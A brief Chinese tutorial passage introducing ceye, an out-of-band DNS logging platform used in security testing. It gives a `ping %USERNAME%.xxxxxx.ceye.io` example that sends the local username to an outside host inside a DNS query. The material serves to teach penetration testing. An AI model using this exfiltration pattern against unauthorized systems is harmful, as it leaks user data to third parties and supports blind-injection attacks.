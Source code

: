 ### 简介

ceye 是一个带外检测平台，用于监控 DNS 流量变化

每个用户都有独立的 `Identifier` 以及 `API Token`

<br>

### 使用

#### 尝试

开启命令提示符，输入（六个 x 即用户独有的六位 identifier）  
`ping %USERNAME%.xxxxxx.ceye.io`

等待请求结束，进入网页的 records->DNSquery，就可以发现我们刚刚的请求以及请求来源的 IP 地址了

<br>
